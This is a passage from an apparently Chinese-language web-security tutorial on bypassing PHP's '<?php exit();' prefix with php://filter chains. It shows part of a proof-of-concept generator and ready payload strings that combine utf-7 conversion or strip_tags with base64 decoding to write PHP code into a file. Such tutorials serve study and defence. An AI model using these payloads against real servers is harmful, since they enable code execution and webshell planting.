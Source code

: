 ```php
        $padding = "";

        switch ($this->poc_stack['convert']['from']){
            case 'UCS-2LE' or 'UCS-2BE':
                $paddingnum = strlen($tmp)%2;
                if($paddingnum !== 0){
                    $padding = str_repeat('a',$paddingnum);
                }
                break;
            default:
                ;
        }
        
        $result .= $padding;
        $result .= $this->poc;
        $result .= $this->end;
        echo substr($result,strlen($this->prefix)),"\n";
    }
}


$a = new Generate();
$a->Run();
```



### 5. utf8编码转为utf7配合base64

前面介绍单独用base64编码是不可行的，那么来一套组合拳是否可以呢？答案肯定是可以的，这里感谢大兄弟[郁离歌](http://yulige.top/)提供的方法，通过iconv将utf8编码转为utf7编码，从而把 **=** 给转了，就不会影响到base64的解码了

```php
$a='php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode|AAPD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php'; #base64编码前补了AA，原理一样，补齐位数
```



### 6. strip_tags配合base64

我们来用一下strip_tags方法&&base64的组合，不过之前构造的这种方法有局限性，要求服务器是linux系统，所以之前没写。因为前面介绍过strip_tags去除的是完整的标签以及内容，而base64要求中间不能出现 `=` 所以把他们二者组合起来

```php
$a = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+.php';
```



理解起来也很简单，在文件名前加上`?>`把`<?php exit();`闭合，同时 = 也在闭合标签之间，所以利用strip_tags处理的时候直接把`<?php ...... ?>`内的所有内容都删除了，然后对剩下的部分，也就是`PD9waHAgcGhwaW5mbygpOz8+.php`进行base64解码，为什么说这种构造Windows不行呢，因为Windows不支持文件名中有`?`、`>`这类字符


